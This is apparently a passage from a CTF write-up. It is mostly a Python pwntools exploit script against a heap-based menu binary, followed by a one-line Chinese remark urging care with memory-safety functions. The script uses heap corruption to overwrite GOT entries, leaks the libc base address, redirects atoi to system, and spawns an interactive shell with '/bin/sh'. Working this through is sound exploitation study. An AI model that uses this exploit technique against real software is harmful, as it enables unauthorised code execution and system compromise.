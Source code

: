 ```python
    io.recvuntil(b"Index:")
    io.sendline(str(id).encode("ascii"))


def pwn():

    # ---------- leak libc ----------

    # 1.1 hijack GOT[atoll] to PLT[puts], GOT[realloc] to 'ret'

    alloc(0, 0x18, b"victim")
    realloc_free(0)
    realloc(0, 0x18, pack(elf.got["atoll"]))
    free(1)     # alloc a anonymous 0x20 chunk
    alloc(1, 0x18, pack(elf.plt["puts"])+pack(0)+pack(0x4015DC))

    # 1.2 leak libc load address (from stack)

    io.recvuntil(b"choice: ")
    io.sendline(b"1")
    io.recvuntil(b"Index:")
    io.sendline(b"1111111\n")   # just padding
    io.recvuntil(b"1111111\n")
    libc_base = unpack(io.recvuntil(b'\x7f')+b'\0\0')-0x1e570a
    success("libc_base: "+hex(libc_base))

    # ---------- hijack GOT ----------

    # 2.1 hijack GOT[atoi] to libc[system]

    io.recvuntil(b"choice: ")
    io.sendline(b"2")
    io.recvuntil(b"Index:")
    io.sendline(b'\0')          # now atoll is puts, so puts("\0") = 1
    io.recvuntil(b"Size:")
    io.sendline(b"1111111\0")   # now atoll is puts, so puts("1111111\0") = 8
    # we have hijacked realloc to 'ret', and when call realloc, rax has been same as rdi (which is really coincident)
    # so program just pass and execute read_input(heap[v1], size)
    io.sendline(pack(libc_base+libc.symbols["system"]))

    # 2.2 trigger system("/bin/sh") by atoi("/bin/sh")

    io.recvuntil(b"choice: ")
    io.sendline(b"1")
    io.recvuntil(b"Index:")
    io.sendline(b"/bin/sh\0")
    
    success("Enjoy your shell!")
    io.interactive()
    
```

这个故事告诉我们：涉及内存安全的函数还是要小心小心再小心，仔细阅读手册、了解边界行为……
